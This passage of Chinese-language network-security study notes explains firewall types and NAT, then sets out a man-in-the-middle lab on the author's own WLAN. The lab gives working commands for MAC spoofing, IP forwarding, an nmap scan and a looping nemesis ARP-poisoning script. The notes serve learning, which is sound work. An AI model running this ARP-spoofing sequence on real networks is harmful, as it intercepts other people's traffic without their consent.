     该代防火墙主要工作在下三层并稍微偷看下传输层的源和目的地址及端口。

2. 有状态的过滤。不仅有第一代防火墙的功能，还工作到OSI第四层传输层上，会把`连接状态`作为一个评价标准。它会保留直到接受足够的包来决定它的连接状态。它记录所有经过的连接并决定是否一个包是新连接的开始或是已存在连接的一部分或者不是。

3. 应用级防火墙[^1]。这种防火墙工作在应用层。它能够理解上层协议，所以，可以去探测是否一个非法的协议在试图通过合法的端口穿越防火墙。传说中的下一代防火墙(NGFW)就是扩展和深化应用层栈的检查。

防火墙可以根据通信被截取的位置和被追踪的状态分类：

- 网络层或包过滤
   主要工作在相对底层的TCP/IP层，靠规则过滤。有两种：
   - 有状态：存储当前连接阶段，源目的地址端口。若一个包不属于已经存在的连接，通过新连接的规则评价它。如果一个包属于已知的连接，则按所在连接处理方式处理
   - 无状态。需要更少内存、更快。适于处理无连接的协议。然而不能基于通信状态做出复杂决定。
   一个例子就是iptables

- 应用层防火墙：通过套接字截取进程间通信，使用各种规则过滤。无法抵御底层的漏洞挖掘，正在被一种强制访问控制(MAC)应用防火墙取代，即沙盒。

- 代理：无论是专用的硬件或者软件，通过以应用的方式响应输入的包起作用。代理服务器是一个网络到另一个特定网络应用的网关，代表网络中的用户来行事。代理服务器使内网和外网隔离更彻底，但攻击者也可以通过使用一台机器当作代理攻击内部网络。

- NAT——网络地址转换：防火墙通常有这些功能，防火墙后的机器通常拥有私有IP地址。本来用来减缓ipv4地址不够用的危机的措施，却意外成为一种反网络侦查的重要防御手段。

# Rogue DHCP

伪造DHCP服务器，暂略。

# DNS系列

放到DNS里来讲

------------------------------------

下面，尝试一次中间人攻击，我是在WLAN内打开自己手机和笔记本。

0.0 mac spoofing

    ~ ⮀ sudo ip link set eth0 down
    ~ ⮀ sudo ip link set dev eth0 address 38:AA:3C:E6:FE:69
    ~ ⮀ ip link set eth0 up

0.1 prepare

    ~ ⮀ ifconfig wlan0 promisc
    ~ ⮀ echo 1 > /proc/sys/net/ipv4/ip_forward

1. find target machine

    ~ ⮀ sudo nmap -sS 192.168.1.0/24

2. arps it

```bash
while true

do

sudo nemesis arp -v -r -d wlan0 -S 192.168.1.102 -D 192.168.1.1 -h E8:39:DF:08:F4:FB -m EC:88:8F:B4:D6:68 -H  E8:39:DF:08:F4:FB -M EC:88:8F:B4:D6:68

sudo nemesis arp -v -r -d wlan0 -S 192.168.1.1 -D 192.168.1.102 -h E8:39:DF:08:F4:FB -m 68:5D:43:2E:AA:59 -H  E8:39:DF:08:F4:FB -M 68:5D:43:2E:AA:59

done

```


[^1]: SDN么这是？
[^2]: 我拿自己手机试了下，大概这种特安全的地方很少吧。
[^3]: [这里解释了为啥是在局域网内](http://stackoverflow.com/questions/10633753/nmap-not-retrieving-mac-address-and-vendor)
[^4]: 一般通过dhcp服务器分配ip地址的大概就没什么问题。不过要是伪造dhcp服务器……啧啧……